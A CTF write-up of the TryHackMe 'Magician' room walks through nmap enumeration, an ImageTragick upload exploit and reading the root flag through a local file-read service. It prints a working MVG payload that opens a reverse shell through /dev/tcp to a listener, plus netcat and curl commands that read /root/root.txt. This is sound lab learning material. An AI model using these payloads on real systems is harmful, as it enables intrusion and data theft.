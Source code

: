 ```yaml
---
title: "Magician TryHackMe"
date: "08-07-2021"
author: "Reda BELHAJ"
summary: "This magical website lets you convert image file formats, room from TryHackme reated by M0N573R777 and ripcurlz."
tags: ["Tryhackme", "Ctf", "Writeup"]
image: "/images/Magician/bg.jpg"
---
```

Let’s take a look at the [Magician CTF](https://tryhackme.com/room/magician) on TryHackMe.

Let’s first add the hostname to our `/etc/hosts` file, as told in the room:

```
echo "10.10.244.57 magician" | sudo tee -a /etc/hosts
```

## Enumeration
### Nmap Scan
The first step of my enumeration was a nmap scan. by the command:

```
nmap -sC -sV -T4 -p- -oN nmapscan magician
```

```
PORT     STATE SERVICE    REASON         VERSION
21/tcp   open  ftp        syn-ack ttl 63 vsftpd 2.0.8 or later
8080/tcp open  http-proxy syn-ack ttl 63
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 
|     Vary: Origin
|     Vary: Access-Control-Request-Method
|     Vary: Access-Control-Request-Headers
|     Content-Type: application/json
|     Date: Fri, 06 Aug 2021 21:15:35 GMT
|     Connection: close
|     {"timestamp":"2021-08-06T21:15:35.319+0000","status":404,"error":"Not Found","message":"No message available","path":"/nice%20ports%2C/Tri%6Eity.txt%2ebak"}
|   GetRequest: 
|     HTTP/1.1 404 
|     Vary: Origin
|     Vary: Access-Control-Request-Method
|     Vary: Access-Control-Request-Headers
|     Content-Type: application/json
|     Date: Fri, 06 Aug 2021 21:15:34 GMT
|     Connection: close
|     {"timestamp":"2021-08-06T21:15:34.270+0000","status":404,"error":"Not Found","message":"No message available","path":"/"}
|   HTTPOptions: 
|     HTTP/1.1 404 
|     Vary: Origin
|     Vary: Access-Control-Request-Method
|     Vary: Access-Control-Request-Headers
|     Content-Type: application/json
|     Date: Fri, 06 Aug 2021 21:15:34 GMT
|     Connection: close
|     {"timestamp":"2021-08-06T21:15:34.678+0000","status":404,"error":"Not Found","message":"No message available","path":"/"}
|   RTSPRequest: 
|     HTTP/1.1 505 
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 465
|     Date: Fri, 06 Aug 2021 21:15:34 GMT
|     <!doctype html><html lang="en"><head><title>HTTP Status 505 
|     HTTP Version Not Supported</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 505 
|_    HTTP Version Not Supported</h1></body></html>
|_http-title: Site doesn't have a title (application/json).
8081/tcp open  http       syn-ack ttl 63 nginx 1.14.0 (Ubuntu)
|_http-favicon: Unknown favicon MD5: CA4D0E532A1010F93901DFCB3A9FC682
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: magician
```
The “Nmap Output” displayed `3` services running under ports 21, 8080 and 8081.

## Exploring 
Navigating to the services:

- we got first a **FTP service** and I tried to connect to it as anonymous:

![FTP](/images/Magician/ftp.jpg)

- Browsing to http://magician:8080 we got a whitelabel error page and indicates that there's no explicit mapping for /error

- Browsing to http://magician:8081 we got a web application that let us convert image file formats and with the hint that we got from FTP:

```
The door just opens after some time? You're quite the patient one, aren't ya, it's a thing called 'delay_successful_login' in /etc/vsftpd.conf ;) Since you're a rookie, this might help you to get started: https://imagetragick.com. You might need to do some little tweaks though...
```

## Exploiting
After some research I've got a [github repo](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Picture%20Image%20Magik#exploit-v1) that let me  exploit the web app:

```
push graphic-context
encoding "UTF-8"
viewbox 0 0 1 1
affine 1 0 0 1 0 0
push graphic-context
image Over 0,0 1,1 '|/bin/sh -i > /dev/tcp/10.8.174.180/4444 0<&1 2>&1'
pop graphic-context
pop graphic-context
```
![Payload](/images/Magician/payload.jpg)

Then I opened a netcat listener and upload the image:

```
nc -nlvp 4444
```

## User Flag
In our listener window, a reverse shell appears and I tried to upgrade NC shell with [Python](https://zsecure.uk/guides/upgrade-nc-shell-with-python-3/):

```
python -c 'import pty; pty.spawn("/bin/bash")'
```
And I got the flag :

```
THM{******************}
```

## Root Flag
For the root flag I was thinking a privilege escalation but the hint led to another path:

```
The magician is known to keep a locally listening cat up his sleeve, it is said to be an oracle who will tell you secrets if you are good enough to understand its meows.
```
So I checked the network connections with netstat command:

```
netstat -anp
```

![Netstat](/images/Magician/netstats.jpg)

So first I tried to access the source code of the web app in the port **6666** with curl command. Then I got a form and an input with the name and the id of `filename` so I tested the root flag file:

```
curl -X POST http://127.0.0.1:6666 -d "filename=/root/root.txt"
```

And I got a encoded data its seems like **ROT13** algorithm:

```
echo "GUZ{******************}" | tr '[A-Za-z]' '[N-ZA-Mn-za-m]'
```

```
THM{******************}
```